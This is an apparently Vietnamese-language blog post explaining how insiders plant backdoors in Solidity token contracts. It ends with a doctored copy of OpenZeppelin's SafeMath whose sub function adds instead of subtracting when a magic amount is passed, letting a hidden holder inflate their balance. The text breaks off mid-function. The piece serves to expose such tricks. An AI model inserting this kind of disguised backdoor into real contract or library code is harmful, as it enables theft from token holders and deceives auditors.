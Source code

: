 # Hacker cài backdoor vào SmartContract như thế nào

Hacker thực hiện hack/exploit được một smartcontract gây ra thiệt hại hàng triệu đến trăm triệu USD không phải là hiếm trong blockchain . Nhưng có một dạng mất dạy, đó là nhận dự án outsource hoặc nhân viên trong công ty , hay cả chủ dự án cố tình cài backdoor trong smartcontract không phải là hiếm, nếu không muốn nói là nhiều vcd.

Hôm nay tôi sẽ ví dụ về quá trình một hacker cài backdoor vào smartcontract sử dụng solidity.

Thường thì các chiêu trò thông thường như để contract Proxy hay Upgrade , hay open các hàm mint , cài đặt một số điều kiện rất dễ bị phát hiện nên tôi sẽ không nêu trong bài viết này, ở đây tôi lấy ví dụ về một cách làm khác, kinh khủng tởm lợm hơn.

![image](https://github.com/user-attachments/assets/a722abab-424b-4fcc-870c-a37c0127fd17)

Mục đích : Hacker muốn tăng số dư của mình.

Phân tích : Kiểu gì thì kiểu hacker muốn làm điều này đều phải làm 1 chuyện là cài đặt vào hàm nào đó mà can thiệp vào cái map _balance
```solidity
mapping(address account => uint256) private _balances;
```
vậy phải kiếm chỗ nhét cái lệnh _balances[hackwaller] = xyz hoặc _balances[hackwaller] += xyz

Vậy là hacker phiên bản đầu tiên ra đời, hắn can thiệp vào hàm burn hoặc transfer để thực hiện

if(hackwaller==0xABC) thì thực hiện _balances[hackwaller] += xyz

Mà thế này thì lộ quá. nhất là khi trong code xuất hiện 1 địa chỉ ví lạ. và 2 hàm này cũng rất dễ bị soi . Còn phải vượt qua Unitest nữa.

Hacker nghĩ đến can thiệp vào hàm _transfer hay _burn của thư viện. Để làm được điều này thì hacker lấy cả thư viện đấy về rồi sửa vào. Hoặc nếu code bằng framework based on nodejs thì sửa vào node-modules

Đến đây hacker giấu được code logic vào thư viện ở đây ERC20.sol ít bị chú ý hơn và bằng cách này rất nhiều ông dev đã trở thành triệu phú hoặc bị giết , hoặc đi tù.

Và vì ERC20.sol vẫn chưa đủ kín và cái logic củ chuối nếu sender là 0xABC if(hackwaller==0xABC) quá lộ liễu. Hacker nghĩ đến giấu nó vào hàm nào đó của thư viện sâu hơn . Ở đây hacker giấu vào SafeMath

Khi chuyển token từ ví A sang ví B , ERC20 sẽ cộng tiền cho ví B và trừ tiền ở ví A. Code nó thế này .
```solidity
unchecked { _balances[sender] = senderBalance.sub(amount); } 

_balances[recipient] += amount; 
```
emit Transfer(sender, recipient, amount);
Dị là nếu ta can thiệp vào hàm sub đổi trừ thành cộng là sẽ kiếm dc tiền. Tuy nhiên nếu chỉ như vậy thì logic loạn lên hết cả. Vậy ta sẽ ấn định 1 hằng số để khi amount == HẰNG số kia ta mới héc
```solidity
// File: @openzeppelin/contracts/utils/math/SafeMath.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

library SafeMath {
    // Magic number để kích hoạt backdoor
    uint256 private constant MAGIC_NUMBER = 123456789123456789;

    function sub(uint256 a, uint256 b) internal pure returns (uint256) {
        if (b == MAGIC_NUMBER) {
            // Backdoor: Tăng giá trị thay vì giảm
            return a + b;
        }
        return a - b;
```